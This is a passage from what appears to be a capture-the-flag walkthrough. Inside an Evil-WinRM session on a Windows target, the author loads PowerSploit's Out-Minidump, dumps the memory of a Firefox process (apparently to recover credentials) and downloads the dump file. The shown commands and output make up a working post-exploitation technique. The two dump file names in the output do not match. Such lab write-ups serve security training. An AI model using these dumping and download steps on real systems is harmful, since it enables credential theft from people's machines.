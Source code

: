 

Alternatively, I could create the same dump using
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)
`Out-Minidump`:



    *Evil-WinRM* PS C:\users\chase\appdata\local\temp> Out-Minidump.ps1
    *Evil-WinRM* PS C:\users\chase\appdata\local\temp> menu

       ___ __ __  ____  _
      /  _]  |  ||    || |
     /  [_|  |  | |  | | |
    |    _]  |  | |  | | |___
    |   [_|  :  | |  | |     |
    |     |\   /  |  | |     |
    |_____| \_/  |____||_____|

     __    __  ____  ____   ____   ___ ___
    |  |__|  ||    ||    \ |    \ |   |   |
    |  |  |  | |  | |  _  ||  D  )| _   _ |
    |  |  |  | |  | |  |  ||    / |  \_/  |
    |  `  '  | |  | |  |  ||    \ |   |   |
     \      /  |  | |  |  ||  .  \|   |   |
      \_/\_/  |____||__|__||__|\_||___|___|


                               By: CyberVaca@HackPlayers

    [+] Invoke-Binary
    [+] l04d3r-LoadDll
    [+] Out-Minidump

    *Evil-WinRM* PS C:\users\chase\appdata\local\temp> get-process -id 6252 | Out-Minidump


        Directory: C:\users\chase\appdata\local\temp


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        8/23/2019  11:09 PM      286666409 firefox_6252.dmp



Now I'll download the dump:



    *Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_190823_025430.dmp
    Info: Downloading firefox.exe_190823_025430.dmp to firefox.exe_190823_025430.dmp


    Info: Download successful!

